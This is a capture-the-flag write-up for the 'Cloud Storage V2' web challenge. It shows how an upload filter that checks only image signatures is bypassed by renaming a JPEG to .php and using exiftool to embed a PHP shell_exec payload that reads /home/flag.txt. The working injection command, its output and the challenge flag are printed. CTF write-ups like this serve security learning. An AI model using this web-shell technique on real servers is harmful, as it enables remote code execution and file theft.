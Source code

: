 ```yaml
---
title: "Cloud Storage V2 [WEB]"
categories: CodeCombat2023
permalink: /ctfs/codecombat2023/cloudstoragev2
---
```


Local File Inclusion leads to Remote Code Execution via PHP Injection.

## 📁 Challenge Description
>I've upgraded the upload system to a new one. You may no longer exploit it now!
>
>`http://cloudstorage.sibersiaga2023.myctf.io/`
>
>flag is in `/home/flag.txt`
>
>Flag format: `sibersiaga{md5hash}`

55.56 points, 9 solves

## 🚩 Solution
The challenge presents a slightly improved security for the file upload functionality on the website. The way it validates if an image file is safe to be uploaded is incomplete and can be bypassed easily. It does check whether it is an image by looking at the file signatures but it doesn't check using the file extension.

Hence, we can start by using a cute penguin image `penguin.jpeg`.

![penguin](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/88cb5623-b1dd-47cf-a128-c27d06ba3b13)

Using `file penguin.jpeg` to check the file type.

```
$ file penguin.jpeg  
penguin.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Change the file extension from `penguin.jpeg` to `penguin.php`.

```
$ cp penguin.jpeg penguin.php
```

Check the file type again. We can see that the file type remains unchanged despite the file extension has been modified with `cp` command.

```
$ file penguin.php
penguin.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Upload it to the website and check for vulnerabilities.

![cloudstorage1](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/dec3d978-14a7-4df9-bd5d-d215f88474d0)

It is using PHP to execute an image file. So, we can inject a PHP shellcode stating the location of the flag (given by the challenge) to execute remotely and retrieve information from the website.

Inject a super duper simple PHP shell execution payload into the `penguin.php` using `exiftool`.

```
$ exiftool -DocumentName='<?php echo shell_exec("cat /home/flag.txt"); ?>' > penguin.php
    1 image files updated

┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ exiftool penguin.php                                    
ExifTool Version Number         : 12.57
File Name                       : penguin.php
Directory                       : .
File Size                       : 3.5 kB
File Modification Date/Time     : 2023:08:15 09:57:23-04:00
File Access Date/Time           : 2023:08:31 10:59:34-04:00
File Inode Change Date/Time     : 2023:08:15 09:57:48-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
Document Name                   : <?php echo shell_exec('cat /home/flag.txt');?>
X Resolution                    : 1
Y Resolution                    : 1
Resolution Unit                 : None
Y Cb Cr Positioning             : Centered
Image Width                     : 183
Image Height                    : 276
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 183x276
Megapixels                      : 0.051
```

{% capture notice-2 %}
💡 **NOTE**: We tried to inject using `-Note=` and `-Comment=` parameters but it did not give any results. However, we ended up using `-DocumentName=` for the attack and it works.
{% endcapture %}

<div class="notice--info">{{ notice-2 | markdownify }}</div>

We can check the file type to see if our document name has added.

```
$ file penguin.php 
penguin.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=5, name=<?php echo shell_exec('cat /home/flag.txt');?>, xresolution=122, yresolution=130, resolutionunit=1], baseline, precision 8, 183x276, components 3
```

Upload the file and we got a hit!

![GGcloudstorage](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/ab0fe0d8-36ce-47c6-8882-3f0d51137175)

***FLAG***: `sibersiaga{9c44f131b9d72f89d9a1c8520c42468d}`

